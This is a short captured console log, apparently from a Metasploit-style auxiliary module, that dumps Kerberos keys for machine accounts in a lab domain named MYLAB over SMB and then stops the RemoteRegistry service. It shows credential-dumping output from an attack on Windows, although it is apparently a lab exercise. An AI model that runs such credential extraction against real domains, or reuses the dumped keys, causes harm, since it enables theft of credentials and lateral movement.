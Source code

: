 ```
MYLAB\WIN-K1F52W6Q3T1$:aes256-cts-hmac-sha1-96:b57511524ba578a836dc11751070d310d959dd29c6a5a9d46018f26e0d9cf6a8
MYLAB\WIN-K1F52W6Q3T1$:aes128-cts-hmac-sha1-96:2ff7e707a2bcbaaba22ee4e633d1cce5
MYLAB\WIN-K1F52W6Q3T1$:des-cbc-md5:93f42858f59c07f2
MYLAB\WIN-51S22F6Q7TW$:aes256-cts-hmac-sha1-96:01a3e2f3a502324146bd2617961dc5e07e1406eadc3aa5cf97e44843f6773e88
MYLAB\WIN-51S22F6Q7TW$:aes128-cts-hmac-sha1-96:f03d11faf242766cd08dd7aea5c7bbcc
MYLAB\WIN-51S22F6Q7TW$:des-cbc-md5:37ee33c8fd401430
MYLAB\WIN2003X86$:aes256-cts-hmac-sha1-96:a678f096c08c570385a107bdc45184e47366a3ccbdb5333644c548f58d4d6b3c
MYLAB\WIN2003X86$:aes128-cts-hmac-sha1-96:ff2d54f76093a7641b6825df28203543
MYLAB\WIN2003X86$:des-cbc-md5:7cfa87f92422ea78

# Clear text passwords:
[*] 192.168.100.123:445 - Cleaning up...
[*] 192.168.100.123:445 - Stopping service RemoteRegistry...
[*] Auxiliary module execution completed
```
